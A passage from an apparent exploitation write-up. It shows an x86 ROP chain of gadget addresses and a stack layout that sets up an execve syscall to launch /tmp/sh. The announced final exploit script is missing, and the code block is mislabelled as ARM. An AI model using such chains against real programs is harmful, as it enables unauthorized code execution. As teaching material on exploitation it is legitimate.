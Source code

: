 As a first step, I tried to find the exact instructions that I needed but I had no luck. So then we need to find instructions that achieve what we want to do, and then fight their sideeffects if any (spoiler alert again: there were). Keep in mind that we also have the stack available for use, so we can inject any data that we are missing or can't find in memory.

I am not going to bore you with the exact process, so here's the final ROP chain:

```arm
0x1a9e   : pop edx ; ret					                    # setup the stack to contain 0x00 to edx 
0x3900e  : and al, 8 ; add esp, 0xc ; ret			            # esp skips over our data
0xc24f7  : push esp ; xor eax, eax ; pop ebx ; pop ebp ; ret	# moving esp to ebx
0x12acce : dec ebx ; ret 					                    # repeated a few times
0xcaf24  : add ecx, ebx ; ret					                # set ecx = ebx
0x97193  : mov eax, 0xb ; int 0x80 				                # syscall
```

For this to work, we need the input (and by proxy the stack) to look like this:

```
 ________________ < ebp - 0x4c
|  padding       |
 ________________ < ebp
| 0x1a9e         | <- pop edx ; ret
 ________________ 
|\x00\x00\x00\x00| <- this gets loaded into edx, because it can be NULL
 ________________ 
| 0x3900e        | <- and al, 8 ; add esp, 0xc ; ret
 ________________ 
| /tmp           | <- skip over this (esp + 0x4)
 ________________ 
| /sh\x00        | <- skip over this (esp + 0x8)
 ________________ 
|\x00\x00\x00\x00| <- skip over this (esp + 0xc)
 ________________ 
| 0xc24f7        | <- push esp ; xor eax, eax ; pop ebx ; pop ebp
 ________________ 
|\x00\x00\x00\x00| <- this goes onto ebp
 ________________ 
| 0x12acce       | <- dec ebx -- repeated 9 times, so that the gadget executes 9 times, used to setup ebx to point to /tmp/sh
 ________________ 
| 0xcaf24        | <- make ecx point to \x00\x00\x00\x00 because it needs to be a pointer to NULL
 ________________ 
| 0x12acce       | <- dec ebx  -- repeated 7 times, so that the gadget executes 7 times
 ________________ 
| 0x97193        | <- mov eax, 0xb ; int 0x80
```

This is the final exploit that I can up with:



Now to find out where it's being loaded, we will need to inspect the processe's process memory maps:
